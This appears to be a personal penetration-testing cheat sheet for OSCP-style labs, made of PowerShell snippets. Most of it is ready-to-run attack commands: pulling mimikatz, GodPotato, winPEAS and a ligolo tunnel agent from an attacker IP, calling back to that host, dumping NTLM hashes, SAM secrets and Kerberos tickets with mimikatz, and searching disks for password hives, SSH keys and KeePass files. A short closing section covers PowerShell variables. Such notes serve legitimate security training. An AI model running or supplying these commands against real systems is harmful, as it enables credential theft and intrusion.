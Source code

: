 List of tools: <https://falconspy.medium.com/unofficial-oscp-approved-tools-b2b4e889e707>


- **TODO! Note Crackmapexec can be misleading, try creds on everything regardless**\
  **NOTE!: CME is not maintained, deprecated, can also try: `netexec`** \
  ---> <https://www.netexec.wiki/>

- Quick examples
```powershell
$MY_IP = "192.168.49.98"
iwr -uri $MY_IP/winPEASx64.exe -out winPEASx64.exe
iwr -uri $MY_IP/seatbelt.exe -out seatbelt.exe
iwr -uri $MY_IP/mimikatz.exe -out mimikatz.exe
iwr -uri $MY_IP/ligolo_agent_win64.exe -out ligolo_agent_win64.exe
iwr -uri $MY_IP/GodPotato-NET4.exe -out GodPotato-NET4.exe
iwr -uri $MY_IP/adPEAS.ps1 -out adPEAS.ps1

$MY_IP = "192.168.49.98"
.\ligolo_agent_win64.exe -connect $MY_IP:11601 -ignore-cert
.\ligolo_agent_win64.exe -connect 192.168.49.98:11601 -ignore-cert

# TODO! This should also grep for any plaintext password! lol
# Print all user+ntlm (TODO manually check that this doesnt miss anything I guess)
./mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"   | Select-String 'ntlm' -Context 2,0 | % { $_.Context.PreContext; $_.Line }
./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit" |  Select-String 'hash ntlm' -Context 1,0 | % { $_.Context.PreContext; $_.Line }
# Pass the ticket
./mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
dir

# gci short
gci -Path C:\Users -Include * -File -Recurse -ErrorAction SilentlyContinue -Force
gci -Path C:\inetpub -Include * -File -Recurse -ErrorAction SilentlyContinue -Force
gci -Path C:\ -Include SYSTEM,SAM,security.save,*.kdbx,*.ppk,ssh*key,*id_*sa*,*.pub,*authorized_keys*,*.ovpn -File -Recurse -ErrorAction SilentlyContinue -Force
```


- Windows variables \
TODO what is difference between $VAR and $env:VAR? Does it have a unix equivalent?
```powershell
$env:RUST_BACKTRACE = "full"
echo $env:RUST_BACKTRACE
```
